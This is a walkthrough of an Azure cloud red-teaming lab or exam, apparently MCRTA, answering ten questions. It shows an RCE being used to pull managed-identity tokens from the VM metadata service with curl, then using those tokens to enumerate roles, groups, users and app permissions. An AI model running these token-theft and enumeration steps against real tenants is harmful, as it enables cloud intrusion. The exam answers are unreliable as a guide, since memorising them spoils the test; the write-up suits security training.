








# Azure Cloud Red Teaming

## 1. What is the subdomain of “meta-tech.cloud” organisation which hosted app on azure vm?
- Visit https://urlscan.io/search/#meta-tech.cloud and found the subdomain `internal.meta-tech.cloud`


> Answer: internal

## 2. What is the “iss” claim in JWT token of vm metadata?
- Follow the IP address of the subdomain

- This website contains a RCE vulnerability at:


- Exploit this vulnerability to retrieve the access token of managed identity attached to the VM:
```sh
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://management.azure.com&api-version=2019-02-01"
```

- Decode the access token and read the `iss` field:


> Answer: https://sts.windows.net/68b40a4c-50f1-48f3-b7cb-916dd82418a7/

## 3. What is the tenant id of the organization?
- Read the `tid` field from the above decoded access token

> Answer: 68b40a4c-50f1-48f3-b7cb-916dd82418a7

## 4. What is the Subscription ID where the vulnerable app is hosted on VM?
- Reuse the RCE to look up the instance's metadata (http://169.254.169.254/metadata/instance/compute?api-version=2021-02-01) and read the `subscriptionId` field:

## 5. What is the subscription level role assigned to identity attached to compromised vm?
- Login with the access token to the tenant `68b40a4c-50f1-48f3-b7cb-916dd82418a7`:
```pwsh
Connect-AzAccount -AccessToken "xxx" -AccountId "68b40a4c-50f1-48f3-b7cb-916dd82418a7"

Subscription name Tenant
----------------- ------
MCRTA-Exam        68b40a4c-50f1-48f3-b7cb-916dd82418a7
```
- Use the `oid` value obtained from the decoded JWT and query all Azure RBAC role assignments for the specific identity (which is the compromised VM):
```pwsh
Get-AzRoleAssignment -ObjectId "3c19c764-a8dd-492d-bae8-0b2146630ab1"

RoleAssignmentName : 27c7fe8d-5bd7-d729-d65f-5c477c343c4e
RoleAssignmentId   : /subscriptions/4ebaca3d-8642-4a01-b544-e62550598323/providers/Microsoft.Authorization/roleAssignme
                     nts/27c7fe8d-5bd7-d729-d65f-5c477c343c4e
Scope              : /subscriptions/4ebaca3d-8642-4a01-b544-e62550598323
DisplayName        :
SignInName         :
RoleDefinitionName : Reader
RoleDefinitionId   : acdd72a7-3385-48ef-bd42-f606fba81ae7
ObjectId           : 3c19c764-a8dd-492d-bae8-0b2146630ab1
ObjectType         : ServicePrincipal
CanDelegate        : False
Description        :
ConditionVersion   :
Condition          :
```

> Answer: Reader

## 6. What is the scope where “custom-role-definition” role is assigned?

- List all Azure RBAC roles: 
```pwsh
Get-AzRoleAssignment
<SNIP>
RoleAssignmentName : 54599177-0872-fa0e-9f7a-f7fce3716a6c
RoleAssignmentId   : /subscriptions/4ebaca3d-8642-4a01-b544-e62550598323/resourceGroups/IT-RG/providers/Microsoft.Compu
                     te/virtualMachines/it-vm/providers/Microsoft.Authorization/roleAssignments/54599177-0872-fa0e-9f7a
                     -f7fce3716a6c
Scope              : /subscriptions/4ebaca3d-8642-4a01-b544-e62550598323/resourceGroups/IT-RG/providers/Microsoft.Compu
                     te/virtualMachines/it-vm
DisplayName        :
SignInName         :
RoleDefinitionName : custom-role-definition
RoleDefinitionId   : 3073a810-518a-273e-97d6-c30abcf852cd
ObjectId           : 796afff8-eb75-4b59-b466-f45267140514
ObjectType         : Group
CanDelegate        : False
Description        :
ConditionVersion   :
Condition          :
<SNIP>
```

> Answer: /subscriptions/4ebaca3d-8642-4a01-b544-e62550598323/resourceGroups/IT-RG/providers/Microsoft.Compute/virtualMachines/it-vm
## 7. Name of the actions allowed in “custom-role-definition” role?

- Use this command to get the role definition and read the role `Actions` field:
```pwsh
> Get-AzRoleDefinition -Name "custom-role-definition"
WARNING: Upcoming breaking changes in the cmdlet 'Get-AzRoleDefinition' :
The output type PSRoleDefinition is changing. The flattened properties 'Actions', 'NotActions', 'DataActions', 'NotDataActions', 'Condition', and 'ConditionVersion' are being removed. Use 'Permissions[n].Actions', 'Permissions[n].DataActions', etc. instead to access the full permission structure with per-permission conditions.
- The change is expected to take effect in Az version : '16.0.0'
- The change is expected to take effect in Az.Resources version : '10.0.0'
Note : Go to https://aka.ms/azps-changewarnings for steps to suppress this breaking change warning, and other information on breaking changes in Azure PowerShell.

Name             : custom-role-definition
Id               : 3073a810-518a-273e-97d6-c30abcf852cd
IsCustom         : True
Description      :
Actions          : {Microsoft.Resources/subscriptions/resourceGroups/read}
NotActions       : {}
DataActions      : {}
NotDataActions   : {}
AssignableScopes : {/subscriptions/4ebaca3d-8642-4a01-b544-e62550598323}
Condition        :
ConditionVersion :
```

> Answer: Microsoft.Resources/subscriptions/resourceGroups/read

## 8. What is the email id of user which is member of “IT Ops” Group?

- Get the new token for Microsoft Graph:
```
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://graph.microsoft.com&api-version=2019-02-01"
```

- Login to the MgGraph with that access token:
```pwsh
> $token = ConvertTo-SecureString "xxx" -AsPlainText -Force
> Connect-MgGraph -AccessToken $token
Welcome to Microsoft Graph!

Connected via userprovidedaccesstoken access using d3b2f570-165f-4946-b830-bb4db32ab003
Readme: https://aka.ms/graph/sdk/powershell
SDK Docs: https://aka.ms/graph/sdk/powershell/docs
API Docs: https://aka.ms/graph/docs

NOTE: You can use the -NoWelcome parameter to suppress this message.
NOTE: Sign in by Web Account Manager (WAM) is enabled by default on Windows systems and cannot be disabled when using the default ClientId.
To disable WAM run Set-MgGraphOption -DisableLoginByWAM $true and then use a custom ClientId.
> Get-MgContext

ClientId               : d3b2f570-165f-4946-b830-bb4db32ab003
TenantId               : 68b40a4c-50f1-48f3-b7cb-916dd82418a7
Scopes                 :
AuthType               : UserProvidedAccessToken
TokenCredentialType    : UserProvidedAccessToken
CertificateThumbprint  :
CertificateSubjectName :
SendCertificateChain   : False
Account                :
AppName                : it-vm
ContextScope           : Process
Certificate            :
PSHostVersion          : 7.6.0
ManagedIdentityId      :
ClientSecret           :
Environment            : Global
WamEnabled             : True
```
- Get the `IT Ops` group's ID and query its users:
```pwsh
> Get-MgGroup

DisplayName    Id                                   MailNickname   Description
-----------    --                                   ------------   -----------
PS Remote      495427ca-bcfb-4112-9ef9-69168f7c5903 PS_Remote
DnsAdmins      517d2318-d018-435c-af8d-e74de40a7ec0 DnsAdmins      DNS Administrators Gr…
DnsUpdateProxy 65a6b532-b581-43a7-b2f4-eb344256029c DnsUpdateProxy DNS clients who are p…
Vault Group    6b21a8cc-ea93-4a36-93da-892e43164f65 6c2d2df1-1
IT Ops         796afff8-eb75-4b59-b466-f45267140514 1eb2c278-f

> Get-MgGroupMember -GroupId 796afff8-eb75-4b59-b466-f45267140514 | ConvertTo-Json
{
  "DeletedDateTime": null,
  "Id": "f84a0ad7-6c69-447f-b2ee-90261d2e040a",
  "AdditionalProperties": {
    "@odata.type": "#microsoft.graph.user",
    "businessPhones": [],
    "displayName": "IT",
    "userPrincipalName": "it@meta-tech.cloud"
  }
}
```

> Answer: it@meta-tech.cloud

## 9. What is the display name of user which is owner of “prod-app” application?

- Get application that has display name starts with `prod-app`:
```pwsh
> Get-MgApplication -Filter "startswith(displayName,'prod-app')"

DisplayName Id                                   AppId                                Sig
                                                                                      nIn
                                                                                      Aud
                                                                                      ien
                                                                                      ce
----------- --                                   -----                                ---
prod-app    8c39f5cb-a738-42e2-8ba0-5c61fa8a032a 3ab6001c-219e-4a5c-ad30-cdffa7d357ca Az…

PS C:\Users\hanoi> Get-MgApplication -Filter "startswith(displayName,'prod-app')"

DisplayName Id                                   AppId                                SignInAudience PublisherDomain
----------- --                                   -----                                -------------- ---------------
prod-app    8c39f5cb-a738-42e2-8ba0-5c61fa8a032a 3ab6001c-219e-4a5c-ad30-cdffa7d357ca AzureADMyOrg   meta-tech.cloud
```
- Get owner of this application and read the displayName for the answer:
```pwsh
> Get-MgApplicationOwner -ApplicationId "8c39f5cb-a738-42e2-8ba0-5c61fa8a032a" | ConvertTo-Json
{
  "DeletedDateTime": null,
  "Id": "f84a0ad7-6c69-447f-b2ee-90261d2e040a",
  "AdditionalProperties": {
    "@odata.type": "#microsoft.graph.user",
    "businessPhones": [],
    "displayName": "IT",
    "userPrincipalName": "it@meta-tech.cloud"
  }
}
```

> Answer: IT
## 10. What is the microsoft graph api permission assigned to “dev-app” application?

```pwsh
PS C:\Users\hanoi> Get-MgApplication -Filter "startswith(displayName,'dev-app')"

DisplayName Id                                   AppId                                SignInAudience PublisherDomain
----------- --                                   -----                                -------------- ---------------
dev-app     0c245104-79d9-418c-8881-610d5ff1ff76 5630b749-3386-441d-9a0c-e1381f1f15f1 AzureADMyOrg   meta-tech.cloud
```
- Queries Microsoft Entra ID to find the application object named `dev-app` then find what API permissions the app has requested (`00000003-0000-0000-c000-000000000000` means Microsoft Graph API):
```pwsh
PS C:\Users\hanoi> $app= Get-MgApplication -ApplicationId  0c245104-79d9-418c-8881-610d5ff1ff76
PS C:\Users\hanoi> $app.requiredResourceAccess | ConvertTo-Json
{
  "ResourceAccess": [
    {
      "Id": "df021288-bdef-4463-88db-98f22de89214",
      "Type": "Role"
    },
    {
      "Id": "b4e74841-8e56-480b-be8b-910348b18b4c",
      "Type": "Scope"
    }
  ],
  "ResourceAppId": "00000003-0000-0000-c000-000000000000",
  "AdditionalProperties": {}
}
```
- Then find the Microsoft Graph API permission by translating the permission ID into human-readable name: 
```pwsh
PS C:\Users\hanoi> $res=Get-MgServicePrincipal -Filter "DisplayName eq 'Microsoft Graph'"
PS C:\Users\hanoi> $res.AppRoles | Where-Object {$_.ID -eq 'df021288-bdef-4463-88db-98f22de89214’} | ConvertTo-Json
{
  "AllowedMemberTypes": [
    "Application"
  ],
  "Description": "Allows the app to read user profiles without a signed in user.",
  "DisplayName": "Read all users' full profiles",
  "Id": "df021288-bdef-4463-88db-98f22de89214",
  "IsEnabled": true,
  "Origin": "Application",
  "Value": "User.Read.All",
  "AdditionalProperties": {}
}
```

> Answer: User.Read.All